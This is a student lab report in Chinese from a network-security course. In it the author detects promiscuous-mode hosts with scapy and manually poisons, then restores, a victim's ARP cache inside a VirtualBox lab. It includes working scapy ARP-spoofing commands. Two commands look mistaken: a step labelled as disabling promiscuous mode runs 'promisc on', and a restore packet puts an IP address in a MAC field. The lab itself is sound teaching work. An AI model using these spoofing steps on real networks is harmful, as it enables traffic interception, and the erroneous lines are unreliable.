# Exp-04 网络监听

### 1. 实验环境

- 网络拓扑

  

- 节点信息

  |   虚拟机名称    |      网卡选择      |      IP地址       |      MAC地址      |
  | :-------------: | :----------------: | :---------------: | :---------------: |
  | gateway-ubuntu  |  NAT网络，ID-net   |    10.0.2.4/24    | 08:00:27:9b:8c:3b |
  |                 |   Host-Only网络    | 192.168.56.106/24 | 08:00:27:83:21:84 |
  |                 | 内部网络，intnet-2 |  172.20.35.1/24   | 08:00:27:5b:99:a5 |
  |   victim-xp-2   | 内部网络，intnet-2 |  172.20.35.36/24  | 08:00:27:39:b0:2c |
  |  victim-ubuntu  | 内部网络，intnet-2 | 172.20.35.144/24  | 08:00:27:8c:f7:d3 |
  | attacker-intnet | 内部网络，intnet-2 | 172.20.35.148/24  | 08:00:27:ae:35:30 |

### 2. 实验准备

- 在attacker-intnet上安装scapy

  ```cmd
  # install python3
  apt-get update && apt-get install python3 python3-pip
  pip3 install scapy[complete]
  ```

### 3. 实验过程

- **实验一 检测局域网中的异常终端**

  - victim-ubuntu

    1. 关闭网卡混杂模式

       ```cmd
       # 在受害者主机上检查网卡的「混杂模式」是否启用
       ip link show enp0s3
       # *(注：若未出现 PROMISC 字段表示未启用网卡混杂模式)
       # 在攻击者主机上开启scapy
       scapy
       # 向靶机发送ARP请求
       pkt = promiscping("172.20.35.144")
       ```

       

       

    2. 开启网卡混杂模式，此时靶机「状态异常」，可被检测出

       ```cmd
       # 开启网卡混杂模式
       ip link set enp0s3 promisc on
       ip link show enp0s3
       # *(注：此时终端界面中出现PROMISC字段)
       # 返回攻击者主机，继续发送ARP请求
       pkt = promiscping("172.20.35.144")
       
       # 关闭靶机的网卡混杂模式
       ip link set enp0s3 promisc on
       ```
       
       
       
       

  - victim-xp-2

    1. 关闭网卡混杂模式

       ```cmd
       # 返回攻击者主机继续发送ARP请求
       pkt = promiscping("172.20.35.36")
       ```

       

    2. 开启网卡混杂模式，此时靶机「状态异常」，可被检测出

       ```cmd
       ======== Preparations on XP ========
       # 操作理由：WinDump默认在网卡混杂模式下运行
       1. Install WinPcap
       2. Download WinDump.exe
       3. Run WinDump.exe
       
       # 返回攻击者主机继续发送ARP请求
       pkt = promiscping("172.20.35.36")
       ```

       

- **实验二 手工单步“毒化”目标主机的 ARP 缓存**

  ```cmd
  ======== 手工单步毒化ARP缓存 ========
  # 构造ARP请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst=gateway_ip)
  # 查看构造好的ARP请求报文详情
  arpbroadcast.show()
  # 发送ARP广播请求，并接收响应包
  recved = srp(arpbroadcast, timeout=2)
  # 获得网关的MAC地址
  gw_mac = recved[0][0][1].hwsrc
  # 伪造网关的ARP响应包发送给受害者主机，将ARP响应的目的地址改为攻击者主机的MAC地址
  arpspoofed = Ether(dst=victim_mac)/ARP(op=2, psrc=gateway_ip, pdst=victim_ip, hwdst=attacker_mac)
  # 发送伪造的ARP数据包到受害者主机
  sendp(arpspoofed)
  # 在受害者主机查看ARP缓存，发现网关MAC地址已被替换为攻击者主机的MAC地址
  # victim-ubuntu
  ip neigh
  # victim windows-xp-2
  arp -a
  
  ======== 靶机 ARP 缓存恢复 ========
  # 伪装网关给受害者发送 ARP 响应
  restorepkt1 = ARP(op=2, psrc=gateway_ip, hwsrc=original_gateway_mac, pdst=victim_ip, hwdst=victim_mac)
  sendp(restorepkt1, count=100, inter=0.2)
  # 伪装受害者给网关发送 ARP 响应
  restorepkt2 = ARP(op=2, pdst=gateway_ip, hwdst=gateway_ip, psrc=victim_ip, hwsrc=victim_mac)
  sendp(restorepkt2, count=100, inter=0.2)
  ```

  

  

  - victim-ubuntu

    

    

    

  - victim-xp-2

    

    

    

### 4. 遇到的问题

- 使用`srp`命令后无法得到正确的ARP响应包

  

  **解决方法：** 

  1. 做第一个实验的时候在网关上将防火墙规则设置为同一网段的靶机不互通，但此次实验时攻击者主机与靶机同网段，因此只需保留如下过滤规则，重新设置网关防火墙：

     ```cmd
     # 此次实验在intnet2中进行，所以只需设置172.20.35.0/24网段即可
     root@gateway:/home/idchannov# iptables -t nat -A POSTROUTING -s 172.20.35.0/24 -o enp0s3 -j MASQUERADE
     ```

     

  2. 网关地址写错（啊…这就真的很淦qwq

- 伪造的网关ARP相应包发不出去

  **解决方法：** 在构造ARP相应包时添加数据链路层Ether()

### 5. 参考资料

- [Re: [Ethereal-users] Windows XP Promiscuous mode](https://www.wireshark.org/lists/ethereal-users/200302/msg00258.html)
- [中传信安课程网站 第四章-网络监听-实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)